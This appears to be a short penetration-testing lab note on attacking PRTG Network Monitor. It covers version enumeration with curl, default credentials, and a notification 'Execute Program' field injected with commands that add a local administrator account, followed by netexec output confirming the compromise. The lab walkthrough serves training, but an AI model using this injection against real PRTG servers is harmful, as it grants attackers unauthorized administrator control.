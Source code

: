 ### Enumeration

Find version number:

```bash
curl -s http://10.129.201.50:8080/index.htm -A "Mozilla/5.0 (compatible;  MSIE 7.01; Windows NT 5.0)" | grep version
```

- Default creds `prtgadmin:prtgadmin`
### Attack

Click on the following `Setup -> Account Setting -> Notifaication -> Add new notification`:

![[Pasted image 20250202162056.png]]

Add a name:

![[Pasted image 20250202162350.png]]

Then click `Execute Program`, and use the following:

In the Program File field, select `Demo.exe notification - outfile.ps1`

```bash
test.txt;net user test test /add;net localgroup administrators test /add
```

![[Pasted image 20250202164831.png]]

To run, click the bell icon:

![[Pasted image 20250202164854.png]]

Verify with netexec

```bash
nxc smb 10.129.201.50 -u prtgadm1 -p 'Pwn3d_by_PRTG!' 
SMB         10.129.201.50   445    APP03            [*] Windows 10 / Server 2019 Build 17763 x64 (name:APP03) (domain:APP03) (signing:False) (SMBv1:False)
SMB         10.129.201.50   445    APP03            [+] APP03\prtgadm1:Pwn3d_by_PRTG! (Pwn3d!)
```


